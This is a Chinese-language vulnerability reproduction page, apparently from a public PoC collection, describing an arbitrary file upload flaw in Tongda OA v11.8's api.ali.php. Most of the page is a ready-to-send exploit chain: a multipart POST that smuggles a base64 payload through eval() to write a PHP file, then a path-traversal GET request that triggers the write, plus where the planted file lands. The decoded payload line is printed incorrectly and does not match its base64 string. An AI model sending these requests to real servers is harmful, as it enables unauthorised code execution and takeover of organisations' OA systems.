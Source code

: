 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

# 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件控制服务器

## 漏洞影响

```
通达OA v11.8
```

## 漏洞复现

登陆页面

![image-20220520154337067](/images/202205201543147.png)

向 api.ali.php 发送请求包

```
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==
file_put_contents('../../fb6790f4.php','');
```

![image-20220520154357492](/images/202205201543536.png)

再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![image-20220520154429920](/images/202205201544984.png)

